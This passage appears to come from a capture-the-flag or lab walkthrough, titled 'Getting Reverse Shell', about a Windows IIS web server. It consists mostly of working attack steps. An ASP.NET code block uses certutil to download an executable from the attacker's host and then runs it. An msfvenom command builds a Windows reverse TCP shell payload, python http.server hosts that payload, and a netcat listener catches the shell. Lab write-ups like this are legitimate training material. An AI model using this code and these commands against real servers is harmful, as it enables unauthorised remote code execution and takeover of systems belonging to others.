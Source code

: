 ### Getting Reverse Shell
Now that we know we can execute arbitrary code on the server with this approach, let's attempt to get a remote shell.

We'll modify our code at the bottom of our file as follows:
```
<%
string stdout = "";
ArrayList commands = new ArrayList();
commands.Add("certutil.exe -urlcache -split -f \"http://192.168.49.65:445/shell.exe\" \"C:\\inetpub\\wwwroot\\shell.exe\"");
commands.Add("\"C:\\inetpub\\wwwroot\\shell.exe\"");
foreach (string cmd in commands) {
	System.Threading.Thread.Sleep(3000);
	System.Diagnostics.ProcessStartInfo procStartInfo = new System.Diagnostics.ProcessStartInfo("cmd", "/c " + cmd);
	procStartInfo.RedirectStandardOutput = true;
	procStartInfo.UseShellExecute = false;
	procStartInfo.CreateNoWindow = true;
	System.Diagnostics.Process p = new System.Diagnostics.Process();
	p.StartInfo = procStartInfo;
	p.Start();
	stdout = p.StandardOutput.ReadToEnd();
	Response.Write(stdout);
}
%>
```

Once run, this code will instruct the server to connect to a web server (that we control), download a reverse shell and execute it. Let's create our reverse shell with msfvenom:
```bash
kali@kali:~$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.65 LPORT=450 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

Next, we'll start a web server to host the reverse shell.
```
root@kali~# sudo python3 -m http.server 445
Serving HTTP on 0.0.0.0 port 445 (http://0.0.0.0:445/) ...
```
Finally, let's start a Netcat listener to catch our shell:
```
kali@kali:~$ sudo nc -lvp 450
listening on [any] 450 ...
```
now uploading this file and refresh the page gets us the rev shell:
![[Pasted image 20240217225448.png]]

